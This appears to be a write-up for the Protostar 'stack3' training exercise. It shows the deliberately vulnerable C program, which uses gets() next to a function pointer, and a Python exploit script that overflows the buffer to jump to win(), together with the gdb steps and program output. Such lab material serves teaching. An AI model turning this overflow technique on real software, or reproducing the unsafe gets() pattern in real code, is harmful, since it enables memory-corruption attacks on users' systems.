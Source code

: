 # Stack3
## Briefing
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP).

Hint:

both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3
## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
## Solution
Stack3 is a slightly easier ret2win.
Easier because we aren't actually overwriting the return address, but a variable that will call a function for us.
This time we should make an actual exploit script, instead of using python from the command line.
```
import struct

exploit = ''
exploit += 'A' * 68

print(exploit)
```
Now every time we want to run this into the program we can use, `python file.py > input`
`./stack3 < input`

`calling function pointer, jumping to 0x41414141`
We have overwritten the ret variable, and that variable has called the function at memory address 0x41414141, unfortunately that is not where are function is.
We can use GDB to find the position of the 'win' function and then jump there with our exploit.

`gdb ./stack3`

`(gdb) p win`

The `p win` command gives us the position of win, which we can see now is at

`$1 = {void (void)} 0x8048424 <win>`

0x8048424

This is where the 'struct' python module comes in!
We can now edit our script to use this memory address.
```
import struct
rp = struct.pack('<L', 0x8048424)

exploit = ''
exploit += 'A' * 64
exploit += rp

print(exploit)
```
The struct.pack changes it into the little endian byte order for us, and then we can run the binary with this script as input.

`code flow successfully changed`

Win!
